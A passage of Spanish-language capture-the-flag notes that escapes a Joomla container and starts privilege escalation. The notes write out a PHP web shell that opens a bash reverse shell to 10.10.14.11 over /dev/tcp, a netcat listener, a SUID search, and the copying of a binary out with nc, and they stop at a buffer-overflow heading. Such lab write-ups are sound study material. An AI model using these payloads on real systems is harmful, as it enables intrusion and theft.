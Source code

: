 ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218155433.png)

### Joomla container

En /var/www/html hay una montura desde la maquina real a el contenedor de una carpeta llamada files.

Podemos crear un php ejecutable que ejecute en la maquina real, ya que este php se puede ejeuctar al abrir el archivo en el navegador.

````
<?php
		system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
?>
````

 > 
 > base64 -w 0 test.php; echo

Nos ponemos en escucha

````
nc -lnvp 443
````

\[-\] ==pwned!==
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218161251.png)

# Privilege Escalation

Buscamos privilegios en suid

````
find \-perm -4000 2>/dev/null
````

Econtramos un binario /bin/lcars

Nos pasamos el binario

````
nc 10.10.14.11 < lcars
````

Miramos a bajo nivel el binario

````
ltrace ./lcars
````

lanzamos test y vemos que la password es picarda1
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218163629.png)
Abrimos el binario con ghydra

## Buffer Overflow
